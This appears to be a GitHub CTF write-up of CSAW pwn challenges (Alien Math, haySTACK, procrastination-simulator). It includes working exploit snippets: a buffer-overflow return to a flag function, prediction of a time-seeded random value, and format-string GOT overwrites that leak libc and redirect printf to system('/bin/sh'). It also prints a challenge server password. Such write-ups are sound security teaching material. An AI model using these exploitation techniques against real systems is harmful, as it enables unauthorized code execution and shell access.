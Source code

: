 Table of Contents
=================

   * [Alien math](#alien-math)
   * [haySTACK](#haystack)
   * [procrastination-simulator](#procrastination-simulator)
      * [file_4](#file_4)
      * [file_2](#file_2)
      * [file_1](#file_1)
   * [Cold](#cold)
   * [word_games](#word_games)

Sorry for my bad english !!
## Alien math
```
Alien Math
60
Brush off your Flirbgarple textbooks!

nc pwn.chal.csaw.io 5004
```
![image](https://user-images.githubusercontent.com/87422359/133059630-36a26841-4747-4ec2-8b66-33a8b6ca0365.png)
![image](https://user-images.githubusercontent.com/87422359/133059840-163d6577-05db-47ce-af83-eb8601f5fc55.png)
![image](https://user-images.githubusercontent.com/87422359/133060090-14b3f5c4-76ad-46f0-9c3c-9235d4531789.png)
there are a BoF bug and a function give us the flag, just return to it.
<br />
payload:
<br />
```python
print_flag = 0x4014FB
r.sendlineafter("salwzoblrs", 'a'*0x18 + p64(print_flag))
```
## haySTACK
![image](https://user-images.githubusercontent.com/87422359/133061463-df45127b-c6df-4a61-9bc8-19277783455a.png)
```c
unsigned __int64 __fastcall sub_1273(__int64 a1)
{
  int i; // [rsp+14h] [rbp-3Ch]
  int v3; // [rsp+18h] [rbp-38h]
  int v4; // [rsp+1Ch] [rbp-34h]
  char s[8]; // [rsp+20h] [rbp-30h] BYREF
  __int64 v6; // [rsp+28h] [rbp-28h]
  __int64 v7; // [rsp+30h] [rbp-20h]
  __int64 v8; // [rsp+38h] [rbp-18h]
  unsigned __int64 v9; // [rsp+48h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  v3 = random();
  *(4LL * v3 + a1) = 4919;
  *s = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  for ( i = 0; i <= 2; ++i )
  {
    fwrite("Which haystack do you want to check?\n", 1uLL, 0x25uLL, stdout);
    fgets(s, 32, stdin);
    v4 = atoi(s);
    if ( v4 <= 0x100000 )
    {
      if ( v4 == v3 )
      {
        printf("Hey you found a needle! And its number is 0x%08x! That's it!\n", *(4LL * v4 + a1));
        win();
      }
      else
      {
        printf("Hey, you found a needle, but it's number is 0x%08x. I don't like that one\n", *(4LL * v4 + a1));
        if ( i )
        {
          if ( i == 1 )
            puts("Did I mention I'm in a hurry? I need you to find it on your next guess");
        }
        else
        {
          puts("Shoot, I forgot to tell you that I hid a needle in every stack. But I only have one favorite needle");
        }
      }
    }
    else
    {
      fwrite("I don't have that many haystacks!\n", 1uLL, 0x22uLL, stdout);
    }
    if ( i == 2 )
    {
      puts("I'm out of time. Thanks for trying...");
      return v9 - __readfsqword(0x28u);
    }
    puts("Let's try again!");
  }
  return v9 - __readfsqword(0x28u);
}
```
we will got flag if out input equal to the random number `v3`
<br />
payload:
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(int argc,char** argv) {
	int result;
	srand(time(NULL) + 2);
	result = rand() % 0x100000;
	printf("%d\n", result);
}
```
```python
seed = int(time())
process = subprocess.Popen('./a.out', stdout=subprocess.PIPE)
rd = process.stdout.readline().rstrip()
r.sendline(rd)
```
## procrastination-simulator
```
procrastination-simulator
point: 430
Oh noes! I partied all weekend and now it's an hour before the CTF ends and I have school deadlines tonight too. Can you help me write 60 reports and pwn 50 challenges by Sunday afternoon? nc auto-pwn.chal.csaw.io 11001 with password cd80d3cd8a479a18bbc9652f3631c61c
```
`nc auto-pwn.chal.csaw.io 11001` then enter the password, we get 
the binary like this:
![given_binary](https://user-images.githubusercontent.com/87422359/133044852-ecc1638d-c82f-4e11-8d92-853e5ead68f6.png)
<br />
we write it to a file then convert it to binary by `xxd -r`<br />
When we pwned and got shell, there was a message on the server give
us another address, port, password and there is another binary on that server. <br />
there are 3 levels, the given binary changes when we up to next level, we 
need to pwn all them to get the flag.
<br />
### file_4
![image](https://user-images.githubusercontent.com/87422359/133046641-66cd8285-9bfe-43e3-b136-dd8d0048f8c0.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046725-49740c3c-6793-4e24-b3c3-e9ff5ca6392c.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046834-aa56ed9a-f9d8-405b-8413-418d22211268.png)
<br />
there are a fsb, and function to get shell.
<br />
what we need to do is overwrite `win()`'s address to `put's got`.
<br />
payload:
<br />
```python
payload  = 'aa'
payload += p32(e.got["exit"])
payload += '%' + str((e.sym['win'] & 0xffff) - 6) + 'd%6$hn'
## send password
r.sendlineafter("password", "cd80d3cd8a479a18bbc9652f3631c61c")
r.sendlineafter('generate a report', payload)
```
![image](https://user-images.githubusercontent.com/87422359/133050190-6ddfbe51-010a-45f7-9050-3f643c7d9c16.png)
### file_2
![image](https://user-images.githubusercontent.com/87422359/133050630-44a7fde5-2f7e-4564-aa28-1c4c01472dd4.png)
<br />
we still have fsb but there is no win function this time.
<br />
![image](https://user-images.githubusercontent.com/87422359/133051357-b5211b7d-7eea-44a1-b9e1-7767891d97c8.png)
<br />
but there is a `/bin/sh` in the binary so i decide to dig into the binary
and i got this
<br />
![image](https://user-images.githubusercontent.com/87422359/133052191-8987d866-8f9f-48fe-84b0-45d96c346765.png)
<br />
same way, but `0x401534` insteal of `win()`'s address.
### file_1
![image](https://user-images.githubusercontent.com/87422359/133052449-5108e99f-145f-4eb2-9523-4c3c1c2b351a.png)
<br />
this time we got 3 times fsb but `PIE enable`, what we
need to do is leak `libc base`, leak `code base` then overwrite `system`'s address
to `printf got`, then enter `/bin/sh`, programe will run `printf('/bin/sh')`
but printf is overwritten so we get `system('/bin/sh')`
<br />
payload:
<br />
```python
## stage 1
payload  = ''
payload += '%45$p %7$p'
p.sendlineafter('> ', payload)

## leaking
p.recvuntil("ntents of Report 1:\n")
leak = int(p.recvuntil(' ').strip(), 16)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
log.info("leak :%s:" % hex(leak))
libc.sym['win'] = one[0]
libc.address = leak - 0x0270b3
log.info("base :%s:" % hex(libc.address))
log.info("win :%s:" % hex(libc.sym['win']))
leak1 = int(p.recvline().strip(), 16) - 156
log.info("target :%s:" % hex(leak1))

## stage 2
payload  = ''
payload += '%' + str(libc.sym["system"] >> 16 & 0xff) + 'd%13$hhn'
payload += '%' + str((libc.sym["system"] & 0xffff) - (libc.sym["system"] >> 16 & 0xff)) + 'd%12$hn'
payload  = payload.ljust(32,'a')
payload += p64(leak1)
payload += p64(leak1 + 2)
p.sendlineafter('s batch!!', payload)

## stage 3
payload  = '/bin/sh'
sleep(1)
p.sendline(payload)
```
## Cold
## word_games
